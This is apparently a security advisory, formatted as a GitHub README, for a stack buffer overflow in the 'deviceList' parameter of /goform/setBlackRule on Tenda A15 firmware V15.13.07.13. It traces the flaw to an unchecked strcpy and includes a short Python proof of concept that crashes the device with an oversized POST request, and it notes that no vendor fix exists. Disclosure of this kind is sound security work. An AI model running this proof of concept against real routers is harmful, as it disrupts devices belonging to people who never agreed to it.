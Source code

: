 # Tenda A15 V15.13.07.13 was discovered to contain a stack overflow vulnerability in the "deviceList" parameter at /goform/setBlackRule.

## Vulnerability Description

Vendor: Tenda

Product: A15

Version: US_A15V1.0RTL_V15.13.07.13_multi_TD01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3187.html

## Vulnerability Details

In formAddMacfilterRule function, get deviceList via websGetVar and pass first argument to parse_macfilter_rule

![1703731028904](image/setBlackRule.zh-cn/1703731028904.png)

The parse_macfilter_rule function, however, is not passed to the dest_rule->name variable via strcpy without any length checksum, which could lead to an attacker using this buffer overflow to perform a DOS attack and an RCE attack.

![1703731130516](image/setBlackRule.zh-cn/1703731130516.png)

## POC

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/setBlackRule'

payload = {
    'deviceList': 'a' * 0x400 + '\r' + 'ff:ff:ff:ff:ff:ff'
}

r = requests.post(url=url, data=payload)

print(r.content)
```

## Trigger details

<video src="https://github.com/yaoyue123/iot/blob/main/Tenda/A15/setBlackRule.mp4" width="640" height="480" controls></video>
See video content

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/us/product/a15.html
